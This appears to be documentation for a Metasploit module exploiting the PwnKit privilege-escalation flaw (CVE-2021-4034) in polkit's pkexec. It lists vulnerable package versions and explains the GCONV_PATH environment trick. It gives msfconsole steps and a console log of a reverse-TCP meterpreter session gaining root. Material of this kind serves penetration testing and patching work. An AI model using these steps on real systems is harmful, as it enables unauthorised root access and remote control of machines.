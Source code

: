 ## Vulnerable Application

The `check` method uses the exploit without a payload.  The patched version
will exit without any arguments and give the help menu.  Unpatched versiions
give the error that the shell was not in the shells folder.

Last Vulnerable Ubuntu packages:
20.04: 0.105-26ubuntu1.2
21.10: 0.105-31ubuntu0.1
18.04: 0.105-20ubuntu0.18.04.6
Source: https://github.com/cyberark/PwnKit-Hunter/blob/main/CVE-2021-4034_Finder.py

Last Vulnerable Debian Packages:
stretch: 0.105-18+deb9u2
buster: 0.105-25+deb10u1
bullseye: 0.105-31+deb11u1
Source: https://github.com/cyberark/PwnKit-Hunter/blob/main/CVE-2021-4034_Finder.py

Vulnerable ContOS Packages:
polkit-0.112-5.ael7b
polkit-0.112-13.p1.el7a
polkit-0.96-2.el6
polkit-0.96-2.el6_0.1
polkit-0.96-5.el6_4
polkit-0.96-7.el6
polkit-0.96-7.el6_6.1
polkit-0.96-11.el6
polkit-0.96-11.el6_10.1
polkit-0.112-1.el7
polkit-0.112-5.el7
polkit-0.112-6.el7_2
polkit-0.112-7.el7_2.2
polkit-0.112-7.el7_2.3
polkit-0.112-7.el7_2
polkit-0.112-9.el7
polkit-0.112-11.el7_3
polkit-0.112-12.el7_3
polkit-0.112-12.el7_4.1
polkit-0.112-14.el7
polkit-0.112-14.el7_5.1
polkit-0.112-17.el7
polkit-0.112-18.el7
polkit-0.112-18.el7_6.1
polkit-0.112-18.el7_6.2
polkit-0.112-22.el7
polkit-0.112-22.el7_7.1
polkit-0.112-26.el7
polkit-0.115-6.el8
polkit-0.115-9.el8
polkit-0.115-9.el8_1.1
polkit-0.115-11.el8
polkit-0.115-11.el8_2.1
polkit-0.115-11.el8_3.2
polkit-0.115-11.el8_4.1
polkit-0.115-12.el8
Source: https://www.ramanean.com/script-to-detect-polkit-vulnerability-in-redhat-linux-systems-pwnkit/

Fedora:
Fedora should be vulnerable, and the check will return showing that it is vulnerable, but
the exploit will fail.  I don't know why.

RedHat:
Untested on Redhat, but I assume similar to Fedora.

## Summary

Polkit's pkexec binary is a bit like sudo in that it allows users to run an application as another user.
For instance, when you run something like `pkexec ls` you'll be prompted for the root user's password.
Because it allows elevated launching of programs, pkexec runs as root.

Processes that run like this are considered special and are run in a Secure-execution mode, which causes
the dynamic linker (ld.so) to strip out problematic environment variables that could introduce security
concerns.  One of these "untrusted" environment variables stripped out by the linker is `GCONV_PATH`, which
sets the location for text conversion libraries.  If a binary needs to convert a text string to a different
encoding, it will load/execute the library specified by `GCONV_PATH`.

For example, if we could get pkexec to run with the environment string `GCONV_PATH=./exploit`, pkexec would
load and execute the exploit as root if we were able to coerce the binary to use an unknown charset.  This
is why the dynamic linker prevents such an environment variable from being passed into secure-execution mode
binaries.

The check to prevent `GCONV_PATH` environment variables is done when a program loads, so if we can modify
the environment variables after the program loads, we could add it, but as the process runs as root, we
could not change those values ourselves.

This is where the logic flaw in pkexec can be abused.  pkexec runs through each argument it is passed and
calls `g_find_program_in_path` which takes a filename and replaces the filename with the full path to the
file, according to its `PATH` environment.  Since there can be multiple binaries, this is done within a
loop.  The specific bug in pkexec is that the loop will always run at least once, even if the number of
arguments is 0.

If the number of arguments is 0, then it will still attempt to resolve the element it pulls from memory
at the location the first argument would have been located.  Because of how the stack is structured,
environment variables are located right after argument values in memory, so if there are no argument values,
then the environment values are there.  The exploit works by coercing `g_find_program_in_path` into
writing `GCONV_PATH=./exploit` into the first slot in the environment list.

We can do this by creating a folder in the `PATH` called `GCONV_PATH=.` and within that folder, place a 
file named `abc`.  We also add the directory `GCONV_PATH` to the `PATH` environment variable.  Now, when
we launch pkexec without any arguments, but with `abc` as the first environment variable and `PATH=GCONV_PATH=`
as the second, `g_find_program_in_path` will look for `abc` in the folder `GCONV_PATH=.` and find it.
It will then overwrite the first environment variable withe the full path to the file as it exists in
our PATH: `GCONV_PATH=./abc` or exactly what we'd like to have as our environment variable.
Now, if we can coerce pkexec to use an unknown charset, it will load the library `./abc.so` which we'll make
the name of our payload.

We can coerce the loading of the .so by adding another environment variable declaring some unknown
charset: `CHARSET=garbage` would work fine if we could get pkexec to need to write a log.  We can 
get it to write a log by giving a bad value for something it depends on.  In our case, we're using
the `SHELL` environment variable.

So, to sum up, if we give pkexec a bad value for the `SHELL` environment variable and an unknown charset
to encode, it will load the .so file specified by `GCONV_PATH` and run it as root in an attempt to
encode to the unknown charset.

To break it down, we need to place a .so payload binary in our current working directory called 
`abc.so` and call pkexec with no arguments and the environment values:
`abc`
`PATH=GCONV_PATH=.`
`SHELL=/garbage`
`CHARSET=garbage`

Once `g_find_program_in_path` runs, the environment variables will be changed to:
`GCONV_PATH=./abc.so`
`PATH=GCONV_PATH=.`
`SHELL=/garbage`
`CHARSET=garbage`

The result will be that pkexec errors while trying to encode test to the non-existant charset, causing it to
load the provided abc.so file in the root context.

## Verification

* Start `msfconsole`
* Get a non-root shell/meterpreter
* use `exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec`
* set SESSION `<session-id>`
* set LHOST `<lhost-IP>`
* `run`

## Scenarios

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.132.108
OS           : Ubuntu 18.04 (Linux 4.15.0-29-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > show options

Module options (exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   x86_64


msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 1
session => 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > check

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Found pkexec here: /usr/bin/pkexec
[*] Determined host os is Ubuntu
[*] Polkit package version = 0.105-20ubuntu0.18.04.1
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.ufhbng
[*] /tmp/.ufhbng created
[!] Verify cleanup of /tmp/.ufhbng
[!] Verify cleanup of /tmp/.ufhbng
[*] Running python3 /tmp/.ufhbng/.ldhocrgy /usr/bin/pkexec /tmp/.ufhbng/tvbitkhihqho/tvbitkhihqho.so tvbitkhihqho aaparobio
[*] GLib: Cannot convert message: Could not open converter from “UTF-8” to “aaparobio”
The value for the SHELL variable was not found the /etc/shells file

This incident has been reported.
[+] The target is vulnerable.
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found pkexec here: /usr/bin/pkexec
[*] Determined host os is Ubuntu
[*] Polkit package version = 0.105-20ubuntu0.18.04.1
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.xsbrztbjdlw
[*] /tmp/.xsbrztbjdlw created
[!] Verify cleanup of /tmp/.xsbrztbjdlw
[!] Verify cleanup of /tmp/.xsbrztbjdlw
[*] Running python3 /tmp/.xsbrztbjdlw/.qokngxltl /usr/bin/pkexec /tmp/.xsbrztbjdlw/dvinwmvna/dvinwmvna.so dvinwmvna ezrlnvhdknjd
[*] GLib: Cannot convert message: Could not open converter from “UTF-8” to “ezrlnvhdknjd”
The value for the SHELL variable was not found the /etc/shells file

This incident has been reported.
[+] The target is vulnerable.
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.voknjxp
[*] /tmp/.voknjxp created
[*] Writing '/tmp/.voknjxp/aicljkrq/aicljkrq.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.voknjxp
[!] Verify cleanup of /tmp/.voknjxp
[*] Running python3 /tmp/.voknjxp/.oarttl /usr/bin/pkexec /tmp/.voknjxp/aicljkrq/aicljkrq.so aicljkrq flqweu
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 10.5.132.108
[+] Deleted /tmp/.voknjxp/aicljkrq/aicljkrq.so
[+] Deleted /tmp/.voknjxp/.oarttl
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.132.108:59692 ) at 2022-02-18 16:13:09 -0600

meterpreter > sysinfo
Computer     : 10.5.132.108
OS           : Ubuntu 18.04 (Linux 4.15.0-29-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 

```

**Reference:** https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
